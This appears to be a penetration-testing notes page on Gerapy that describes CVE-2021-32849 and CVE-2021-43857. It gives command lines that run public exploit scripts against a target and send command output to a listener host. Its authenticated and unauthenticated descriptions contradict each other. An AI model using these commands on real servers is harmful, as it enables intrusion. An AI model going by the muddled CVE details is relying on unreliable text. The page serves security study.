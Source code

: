 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Gerapy

Gerapy is a web-based management tool designed for deploying, scheduling, and controlling web scraping projects built with Scrapy. It provides a graphical interface that simplifies interaction with Scrapy spiders across multiple servers, removing the need to manually execute or configure them via the command line. Gerapy enables centralized management of multiple scraping jobs, integrates scheduling functionality, and supports deployment to distributed environments.

## Unauthenticated RCE

Gerapy versions prior to `0.9.9` are vulnerable to **unauthenticated RCE** ([CVE-2021-32849](https://nvd.nist.gov/vuln/detail/CVE-2021-32849)). This is due to improper input handling in the project deployment functionality. Specifically, the issue lies in how Gerapy processes uploaded project files. It fails to sanitize or validate the contents of these uploads, allowing an attacker to include malicious Python code within a project archive. When this archive is extracted and executed by the application, the embedded payload runs with the privileges of the Gerapy process. A [PoC](https://github.com/lowkey0808/cve-2021-32849) is available:

{% code overflow="wrap" %}
```bash
python3 CVE-2021-32849.py -u http://192.168.1.69:8000 -U admin -P admin@123 -r 10.10.16.34 -p 8888 -c id
```
{% endcode %}

The response including the commands output will be received on the listener.

## Authenticated RCE

Gerapy versions prior to `0.9.8` ([CVE-2021-43857](https://nvd.nist.gov/vuln/detail/CVE-2021-43857)) are vulnerable to **authenticated RCE** due to the lack of authentication or access control on critical API endpoints. In vulnerable versions, attackers can directly interact with exposed endpoints that allow project deployment, spider execution, or command injection without requiring valid credentials. This flaw permits unauthenticated users to execute arbitrary system commands on the server hosting Gerapy, effectively resulting in RCE. A PoC is available, but we need first to create a project and then execute it.

```bash
$ searchsploit Gerapy
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated) | python/remote/50640.py

$ python2 50640.py -t 192.168.161.24 -p 8000 -L 192.168.45.170 -P 80
```
